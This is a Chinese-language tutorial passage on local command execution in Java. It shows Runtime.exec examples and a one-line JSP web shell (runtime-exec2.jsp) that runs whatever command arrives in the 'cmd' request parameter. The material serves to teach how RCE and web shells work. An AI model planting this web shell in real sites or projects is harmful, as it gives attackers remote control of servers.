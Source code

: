 #### Linux下调用/bin/bash

```java
String [] cmd = {"/bin/bash","-c","ls"};
Process proc = Runtime.getRuntime().exec(cmd);
```

#### 根据系统选择合适的解释器

```java
System.getProperty("os.name");
```



## Java本地命令执行

Java原生提供了对本地系统命令执行的支持，黑客通常会`RCE利用漏洞`或者`WebShell`来执行系统终端命令控制服务器的目的。

对于开发者来说执行本地命令来实现某些程序功能(如:ps 进程管理、top内存管理等)是一个正常的需求，而对于黑客来说`本地命令执行`是一种非常有利的入侵手段。

### Runtime命令执行测试

#### runtime-exec2.jsp

```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```

<img src="image/image-20230709170039712.png" alt="image-20230709170039712" style="zoom:80%;" />

这样执行命令没有回显，我们可以通过字节输入流读取回显结果
